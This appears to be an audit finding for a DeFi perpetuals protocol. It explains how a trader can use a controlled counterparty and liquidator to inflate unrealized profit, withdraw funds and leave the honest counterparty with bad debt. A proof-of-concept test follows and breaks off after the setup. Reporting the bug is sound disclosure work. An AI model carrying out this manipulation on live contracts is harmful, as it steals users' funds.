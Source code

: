 The following scenario is possible for malicious partyA to steal funds:

1. partyA opens LONG position with "good" partyB

2. At the same time, partyA opens 2 opposite (LONG and SHORT) positions with controlled partyB2 with minimally accepted allocated balance (with slightly different sizes, so that if price goes against partyA, partyB2 will be liquidatable)

3. When price goes against partyA (it has large loss in a position with partyB), partyB2 becomes liquidatable

4. partyA uses controlled liquidator to liquidate partyB2 and calls `liquidatePositionsPartyB` but only with `quoteId` of the LONG position (which is in a loss for partyA)

5. After that, partyA will have a very large profit from its SHORT position with partyB2, which will offset the loss from LONG position with partyB (LONG position with partyB2 is liquidated). partyA can deallocate it's full allocated balance, as the artificial unrealized profit allows to do this.

6. Any liquidator can finish liquidating partyB2, at this point partyA will go into bad debt, but since its allocated balance is 0, after partyA liquidation - partyB won't get anything and will lose all its profit. Effectively partyA has stolen funds from partyB.

It is also possible to just outright steal all funds from the protocol by using another bug (liquidation of partyA to inflate allocated balances of controlled partyB), but that's out of context of this bug.

## Impact

Any partyA which is in a loss on any of its position, can exploit the bug to temporarily inflate upnl and deallocate all funds at the expense of the other party, which won't get the profit from partyA positions due to bad debt.

Combining it with the other bug allows to steal all protocol funds.

## Code Snippet

Add this to any test, for example to `ClosePosition.behavior.ts`.

```ts
it("PartyA upnl boost off picky partyB position liquidation", async function () {
  const context: RunContext = this.context;

  this.user_allocated = decimal(1000);
  this.hedger_allocated = decimal(1000);
  this.hedger2_allocated = decimal(77);

  this.user = new User(this.context, this.context.signers.user);
  await this.user.setup();
  await this.user.setBalances(this.user_allocated, this.user_allocated, this.user_allocated);

  this.hedger = new Hedger(this.context, this.context.signers.hedger);
  await this.hedger.setup();
  await this.hedger.setBalances(this.hedger_allocated, this.hedger_allocated);

  this.hedger2 = new Hedger(this.context, this.context.signers.hedger2);
  await this.hedger2.setup();
  await this.hedger2.setBalances(this.hedger2_allocated, this.hedger2_allocated);

  this.liquidator = new User(this.context, this.context.signers.liquidator);
  await this.liquidator.setup();

  // open position (100 @ 10)
  await this.user.sendQuote(limitQuoteRequestBuilder().quantity(decimal(100)).price(decimal(10)).build());
  await this.hedger.lockQuote(1, 0, decimal(1));
  await this.hedger.openPosition(1, limitOpenRequestBuilder().filledAmount(decimal(100)).openPrice(decimal(10)).price(decimal(10)).build());
```